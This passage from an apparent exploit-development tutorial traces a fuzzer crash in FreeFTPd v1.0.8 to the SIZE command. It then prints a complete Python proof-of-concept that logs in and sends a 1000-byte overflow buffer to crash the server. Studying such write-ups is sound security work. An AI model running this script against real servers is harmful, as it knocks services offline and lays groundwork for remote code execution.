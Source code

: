 So here we can see the last bit of data sent to the stack was "SIZE AAAAAA(1000 times)\n". What's interesting is that this crash does not happen at all if we remove a newline from the end of the buffer (hex byte "\x0a"). That's an interesting piece of information that will be important later. Now that we know what is causing the crash, we should be able to take out the rest of the junk in the fuzzer and presto exploito. 

```python
#!/usr/bin/env python
"""
Description: Post-Authenticated Buffer Overflow via "SIZE" Command in FreeFTPd v1.0.8
Author: Cody Winkler
Contact: @cwinfosec
Date: 11/26/2019
Tested On: Windows XP SP2 EN

[+] Usage: python expoit.py <IP> <PORT>

$ python exploit.py 127.0.0.1 21
"""

import socket
from struct import pack
import sys

host = sys.argv[1]
port = int(sys.argv[2])

username = "USER anonymous\r\n"
password = "PASS test\r\n"

command = "SIZE "

buffer = "A"*1000
buffer += "\x0a"


try:

    print "[+] Connecting to target"
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    print s.recv(1024)
    s.send(username)
    print s.recv(1024)
    s.send(password)
    s.recv(1024)
    s.send(command + buffer)
    print "[+] Sent " + command + "payload with length: %d" % len(buffer)
    s.close()

except:
    print "[-] Failed to connect to destination FreeFTPD Service"
```
